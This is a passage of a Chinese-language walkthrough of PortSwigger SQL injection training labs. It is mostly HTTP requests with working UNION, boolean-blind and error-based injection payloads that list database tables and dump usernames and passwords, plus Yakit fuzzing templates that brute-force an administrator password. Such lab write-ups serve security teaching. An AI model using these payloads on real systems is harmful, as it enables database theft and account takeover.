<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category=Accessories%27%20union%20select%20@@version,%20null-- </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Host</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> 0ace003303e650c8823f51af00ea007f.web-security-academy.net</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">User-Agent</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Cookie</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> session=DCMQEesA2rUZaenI8GMhR70lXTGxQfKP</span></span></code></pre></figure>
<h4 id="lab-5-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases">Lab 5: SQL Injection Attack, Listing the Database Contents on non-Oracle Databases<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-5-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle" class="external">https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：以 <code>administrator</code> 用户身份登陆。</p>
<p>思路，盲猜是 mysql，确定列数后读取版本，但是报错，尝试通过读取 <code>information_schema.tables</code> 获取更多信息。</p>
<p></p>
<p>可以确定是 <code>PostgreSQL</code></p>
<p>继续读取 <code>information_schema.tables</code>，但筛除系统中的表</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Pets' union select table_name,NULL from information_schema.tables where table_name not like 'pg%'--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p>从结果中，搜索 <code>user</code> 相关的表，有 <code>4</code> 个，逐个尝试至 <code>users_mqbatw</code></p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Pets' union select table_name, column_name from information_schema.columns where table_name = 'users_mqbatw'--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p>列信息如下</p>
<p></p>
<p>使用 union 查询读取 <code>users_mqbatw</code> 的信息</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Pets' union select username_idvhxr,password_xwrmtt from users_mqbatw--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p></p>
<h4 id="lab-6-sql-injection-attack-listing-the-database-contents-on-oracle">Lab 6: SQL Injection Attack, Listing the Database Contents on Oracle<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-6-sql-injection-attack-listing-the-database-contents-on-oracle" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle" class="external">https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：以 <code>administrator</code> 用户身份登陆。</p>
<p>已提示为 <code>Orcale</code> 数据库，读取所有表</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Gifts' union select table_name, null from all_tables--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p>猜测为 <code>USERS_ERQOPU</code>，读取列信息</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Gifts' union select table_name, COLUMN_NAME from all_tab_columns where table_name='USERS_ERQOPU'--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p></p>
<p>根据列信息读取该表</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Gifts' union select USERNAME_MZPSUJ, PASSWORD_CXJVFV from USERS_ERQOPU--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p></p>
<h4 id="lab-7-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query">Lab 7: SQL Injection UNION Attack, Determining the Number of Columns Returned by the Query<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-7-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns" class="external">https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：确定查询返回的列的数量</p>
<p>首先确认数据库类型，尝试之后确认为 PostgreSQL，直接注入即可。</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Gifts' union select null, null, null--)}}</span></span></code></pre></figure>
<h4 id="lab-8-sql-injection-union-attack-finding-a-column-containing-text">Lab 8: SQL Injection UNION Attack, Finding a Column Containing Text<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-8-sql-injection-union-attack-finding-a-column-containing-text" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://0ac3006c04e38a1888e2f1770085004a.web-security-academy.net/" class="external">https://0ac3006c04e38a1888e2f1770085004a.web-security-academy.net/<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：确定查询结果返回的数据类型，并让查询结果返回特定 flag value，</p>
<p>确定列数</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Lifestyle' order by 3--)}}</span></span></code></pre></figure>
<p>测试列的类型，找到类型为字符串的列，为第 2 列</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Lifestyle' union select null,'a',null--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p>根据提示内容，需要返回字符串 <code>'PKbRlH'</code></p>
<p></p>
<p>发送如下请求</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Lifestyle' union select null, 'PKbRlH', null--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<h4 id="lab-9-sql-injection-union-attack-retrieving-data-from-other-tables">Lab 9: SQL Injection UNION Attack, Retrieving Data from other Tables<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-9-sql-injection-union-attack-retrieving-data-from-other-tables" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables" class="external">https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：读取用户表，以 <code>administrator</code> 身份登陆</p>
<p>解决过程和前面是类似的，不赘述，找到的表名为 users</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Gifts' union select null,table_name from information_schema.tables where table_name not like 'pg%'--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p>读取该表</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Gifts' union select username,password from users--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p></p>
<h4 id="lab-10-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column">Lab 10: SQL Injection UNION Attack, Retrieving Multiple Values in a Single Column<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-10-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column" class="external">https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：读取用户表，以 <code>administrator</code> 身份登陆</p>
<p>已经提示了表名和列名，测试发现只有一列的类型是字符串，需要将两列的结果拼接在一起</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Gifts' union select  null, username || '~' || password from users--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p></p>
<h4 id="lab-11-blind-sql-injection-with-conditional-responses">Lab 11: Blind SQL Injection with Conditional Responses<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-11-blind-sql-injection-with-conditional-responses" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses" class="external">https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：读取用户表，以 <code>administrator</code> 身份登陆</p>
<p>与前面类似，但是是盲注，无回显注入点位于 <code>Cookie</code> 中的 <code>TrackingId=si7cWehMEcOZOY7j</code>，注意页面中的 <code>Welcome back!</code>，修改 <code>TrackingId</code> 后就没有这段文本了。</p>
<blockquote>
<p>唯一能获得的回显特征是 <code>Welcome back!</code>。可以尝试 <code>TrackingId=si7cWehMEcOZOY7j ' or '1'='1</code> 和 <code>TrackingId=si7cWehMEcOZOY7j ' and '2'='1</code> 来确认。</p>
</blockquote>
<p>所以需要根据响应内容的不同来判断盲注的结果是否正确。</p>
<p>已经提示了列名、表名和用户名，那么需要猜测用户名对应的密码，可以通过二分查找的逻辑逐个爆破密码字符，首先先确认密码的长度，确认长度为 20</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> / </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Cookie</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> TrackingId=si7cWehMEcOZOY7j' and (select 'a' from users where username='administrator' and length(password) > 20)='a;</span></span></code></pre></figure>
<p>确定长度为 <code>19</code>，下面猜测密码中每一位的内容，这部分过程手工十分低效且枯燥</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> / </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Cookie</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> TrackingId=si7cWehMEcOZOY7j' and substring((select password from users where username='administrator'),1,1)='a;</span></span></code></pre></figure>
<p>下面使用 <code>Yakit</code> 的模糊测试功能进行爆破，选中 a 后右键 <span>→</span>插入标签和字典 <span>→</span>插入临时字典，填入 <code>ascii</code> 英文字母和数字之后进行爆破，同时选中数字 <code>1</code>，进行相同操作，但填入数字 <code>1</code> 至 <code>19</code>，</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> / </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Cookie</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> TrackingId=si7cWehMEcOZOY7j' and substring((select password from users where username='administrator'),{{int(1-20)}},1)='{{file:line(/Users/trganda/yakit-projects/temp/tmp1165100010.txt)}}; session=pCYf6TdkVFJkmgXmkZ059YeJvDjEohEh</span></span></code></pre></figure>
<p>得到的密码为</p>
<pre><code>vh2ecqg1g8nyjs16thqi
</code></pre>
<h4 id="lab-12-blind-sql-injection-with-conditional-errors">Lab 12: Blind SQL Injection with Conditional Errors<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-12-blind-sql-injection-with-conditional-errors" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors" class="external">https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目的：读取用户表，以 <code>administrator</code> 身份登陆</p>
<p>与前面不同，无论后端返回的查询结果中的数据是怎样的，页面的响应结果都不会变化。但是当查询语句出现错误的时候，却会有一点不同。</p>
<p>为了让语句出错，使用整除 0，</p>
<blockquote>
<p>CASE 语句类型编程语言中的 If</p>
</blockquote>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="sql" data-theme="github-light github-dark"><code data-language="sql" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">(</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">SELECT</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;"> CASE</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;"> WHEN</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> (</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">=</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">2</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">) </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">THEN</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> TO_CHAR(</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">0</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">) </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">ELSE</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> 'a'</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;"> END</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">)</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">=</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;">'a</span></span>
<span data-line><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;">(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">a</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;">' END)='</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">a</span></span></code></pre></figure>
<p>尝试上述语句，会发现两者响应都是 <code>500</code>，猜测为 <code>Orcale</code>，需要添加 <code>FROM DUAL</code></p>
<p></p>
<p>接下来就通过该特征来判断盲注的结果，在 <code>Yakit</code> 中使用以下请求</p>
<blockquote>
<p>注意 <code>Orcale</code> 中需要使用 <code>SUBSTR</code></p>
</blockquote>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> / </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Cookie</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> TrackingId=XytKjQAUwTQLulJS' and (select case when (substr(password, {{int(1-20)}}, 1) = '{{file:line(C:\Users\Trganda\yakit-projects\temp\tmp1535641307.txt)}}') then to_char(1/0) else 'a' end from users where username = 'administrator')='a; session=MlAZ4LT4ohF3P9zhr4cGZrWnCEg1JxAe</span></span></code></pre></figure>
<p>最后得到的密码为</p>
<pre><code>z66fpty25y2eww01t469
</code></pre>
<h4 id="lab-13-visible-error-based-sql-injection">Lab 13: Visible Error-based SQL Injection<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-13-visible-error-based-sql-injection" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
